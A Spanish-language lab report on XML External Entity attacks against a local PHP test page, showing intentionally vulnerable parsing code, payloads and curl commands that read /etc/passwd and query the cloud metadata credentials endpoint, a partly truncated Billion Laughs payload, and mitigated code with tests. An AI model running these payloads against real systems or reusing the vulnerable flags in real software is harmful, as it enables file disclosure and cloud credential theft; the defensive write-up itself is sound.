

# XXE

XXE (XML External Entity) ocurre cuando una aplicación procesa XML sin restricciones, permitiendo a un atacante:
- Leer archivos internos del servidor (/etc/passwd, C:\windows\win.ini).
- Realizar peticiones SSRF (http://169.254.169.254/latest/meta-data/).
- Ejecutar ataques DoS (Billion Laughs Attack).

# INFORME TÉCNICO - ANÁLISIS Y MITIGACIÓN XXE

## 1. OBJETIVO

Identificar vulnerabilidades XXE (XML External Entity) en una aplicación PHP que procesa XML sin restricciones y proponer mitigaciones.

---

## 2. ENTORNO DE PRUEBAS

| Parámetro | Valor |
|---|---|
| **Servidor** | PHP/Apache (Docker) |
| **URL objetivo** | `http://localhost/xxe.php` |
| **Archivo vulnerable** | `xxe.php` |
| **Entrada atacada** | `php://input` → `DOMDocument->loadXML()` |

---

## 3. CÓDIGO VULNERABLE

```php
loadXML(
    file_get_contents('php://input'),
    LIBXML_NOENT | LIBXML_DTDLOAD
);
$parsed = simplexml_import_dom($dom);
echo $parsed;
?>
```

| Problema | Impacto |
|---|---|
| `LIBXML_NOENT` | Sustituye entidades externas automáticamente |
| `LIBXML_DTDLOAD` | Permite cargar DTDs externas con entidades |
| Sin validación de entrada | Acepta cualquier XML sin restricciones |
| `echo $parsed` directo | Muestra contenido de archivos del sistema |

- **CWE:** CWE-611 - Improper Restriction of XML External Entity Reference
- **Severidad:** CRÍTICA (CVSS 9.1)

---

## 4. EXPLOITS IDENTIFICADOS

### EXPLOIT 1: Lectura de archivos internos (`/etc/passwd`)

**Descripción:** Mediante una entidad externa apuntando a `file://`, el servidor lee y devuelve el contenido de archivos del sistema.

**Payload:**

```xml

<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
&xxe;
```

**Comando:**

```bash
curl -X POST http://localhost/xxe.php \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>&xxe;'
```




**Resultado:** El servidor devuelve el contenido completo de `/etc/passwd`, exponiendo todos los usuarios del sistema (`root`, `www-data`, etc.).

**Impacto:** CRÍTICA — Exposición de usuarios del sistema. Permite enumerar cuentas para ataques de fuerza bruta o escalada de privilegios.

---

### EXPLOIT 2: SSRF (Server-Side Request Forgery)

**Descripción:** Usando una entidad externa con URL HTTP, el servidor realiza peticiones a redes internas inaccesibles desde el exterior.

**Payload:**

```xml

<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
&xxe;
```

**Comando:**

```bash
curl -X POST http://localhost/xxe.php \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>&xxe;'
```

**Impacto:** ALTA (CVSS 8.6) — En entornos cloud (AWS, Azure, GCP), permite obtener tokens IAM y credenciales de acceso de la instancia.

---

### EXPLOIT 3: DoS - Billion Laughs Attack

**Descripción:** Mediante entidades anidadas que se expanden exponencialmente, se consume toda la memoria del servidor.

**Payload:**

```xml

]>
&lol3;
```

**Impacto:** MEDIA (CVSS 5.3) — El servidor consume 100% CPU/memoria provocando denegación de servicio para todos los usuarios.

---

## 5. MITIGACIÓN

###  Código SEGURO (`safe_xxe.php`)

```php
<?php
//  MITIGACIÓN 1: Deshabilitar entidades externas
libxml_disable_entity_loader(true);

$dom = new DOMDocument();

//  MITIGACIÓN 2 y 3: Sin LIBXML_NOENT ni LIBXML_DTDLOAD
//                       Añadir LIBXML_NONET para bloquear red
$dom->loadXML(
    file_get_contents('php://input'),
    LIBXML_NONET
);

$parsed = simplexml_import_dom($dom);

//  MITIGACIÓN 4: Sanitizar output
echo htmlspecialchars((string)$parsed->data, ENT_QUOTES, 'UTF-8');
?>
```

| Mitigación | Descripción |
|---|---|
| `libxml_disable_entity_loader(true)` | Desactiva carga de entidades externas |
| Eliminar `LIBXML_NOENT` | No sustituye entidades externas |
| Eliminar `LIBXML_DTDLOAD` | No carga DTDs externas |
| Añadir `LIBXML_NONET` | Bloquea acceso de red desde libxml (previene SSRF) |
| `htmlspecialchars()` en output | Previene XSS secundario |

---

## 6. VERIFICACIÓN DE MITIGACIÓN

### Test bloqueado — Intento `/etc/passwd`

```bash
curl -X POST http://localhost/safe_xxe.php \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>&xxe;'
```

**Resultado esperado:** Respuesta vacía o error — entidad no sustituida.

---

### Test permitido — XML legítimo

```bash
curl -X POST http://localhost/safe_xxe.php \
  -H "Content-Type: application/xml" \
  -d 'Mensaje seguro'
```

**Resultado esperado:** `Mensaje seguro`

---

## 7. CONCLUSIONES

-  3 tipos de vulnerabilidad XXE identificados (File Disclosure, SSRF, DoS)
-  Exploit File Disclosure confirmado con lectura de `/etc/passwd`
-  Mitigación multicapa implementada en `safe_xxe.php`
-  Código seguro disponible para sustituir en producción

> **Recomendación:** Reemplazar `xxe.php` → `safe_xxe.php` y aplicar `libxml_disable_entity_loader(true)` en todos los parsers XML del proyecto.